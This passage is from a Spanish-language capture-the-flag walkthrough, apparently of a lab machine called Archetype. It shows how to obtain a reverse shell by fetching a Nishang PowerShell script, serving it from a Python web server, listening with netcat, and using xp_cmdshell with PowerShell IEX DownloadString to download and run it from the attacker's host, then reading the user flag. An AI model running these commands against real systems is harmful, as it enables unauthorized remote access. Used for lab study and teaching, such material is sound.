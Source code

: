 -	 wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcpOneLine.ps1, 

Una vez tenemos lista la reverse shell debemos compartirla a la maquina objetivo. Para ello utilizaremos un servidor de python por el puerto 80. (debemos levantar este servidor iniciandolo desde la misma carpeta donde tenemos la reverse shell [shell.ps1].

-	 sudo python3 -m http.server 80

Nos pondremos a la escucha desde nuestro kali por el puerto que hayamos indicado en la reverse shell para obtener ahi la conexion desde la maquina objetivo.

-	sudo nc -lvnp 443
	
Antes de todo deberemos configurar una regla de firewall para permitir conexiones desde kla ip de la mauqina objetivo mediante el protocolo TCP a los puertos 80 y 443 a nuestra maquina. Usando ufw:

-	sudo apt install -y ufw
-	sudo ufw enable
-	sudo ufw allow from {ip maquina objetivo} proto tcp to any port 80,443
-	sudo ufw status 

![firewall](https://githubraw.com/H4ckM1nd/H4ckM1nd.github.io/master/_posts/CAPTURAS/Archetype/Imagenes/archetype%20reglas%20ufw%20.png)

Con todo listo ejecutamos el comando SQL server para descargar nuestro backdoor en la maquina objetivo y crear nuestra reverse TCP shell.

-	xp_cmdshell"powershell"IEX(NewObjectNet.WebClient).DownloadString(\"http://YourIP/nombre_script.ps1\");""

![sqlinvokerevershell](https://githubraw.com/H4ckM1nd/H4ckM1nd.github.io/master/_posts/CAPTURAS/Archetype/Imagenes/archetype%20sql%20reverse%20shell%201.png)
	
Debería ejecutarse con éxito. El resultado en nuestro python http server que ejecuta nuestra página web de python debe mostrar un HTML 200 response code, mostrando una descarga exitosa de nuestro Powershell script.

ASI YA DEBERIAMOS OBTENER UNA REVERSE SHELL EN NUESTRO EQUIPO.

![netcat shell](https://githubraw.com/H4ckM1nd/H4ckM1nd.github.io/master/_posts/CAPTURAS/Archetype/Imagenes/archetype%20revershell%20obtenida%20en%20kali.png)

Listamos contenido con dir y nos movemos al directorio escritorio. Listamos otra vez con dir y vemos la primera flag llamada user.txt
Para leer su contenido usamos el comando type:

-	type user.txt

![flag1](https://githubraw.com/H4ckM1nd/H4ckM1nd.github.io/master/_posts/CAPTURAS/Archetype/Imagenes/archetype%20ls%20directory%20flag%201.png)

ASI OBTENEMOS NUETRA PRIMERA FLAG


## ESCALADA DE PRIVILEGIOS

La cuenta en la que nos encontramos no tiene permisos de administrador, pero se utiliza para gestionar servicios, lo que significa que en algún momento se aplica algún permiso de administrador. Para verificar los archivos de acceso frecuente o los comandos ejecutados, podemos revisar el historial de comandos de Powershell con el siguiente comando:
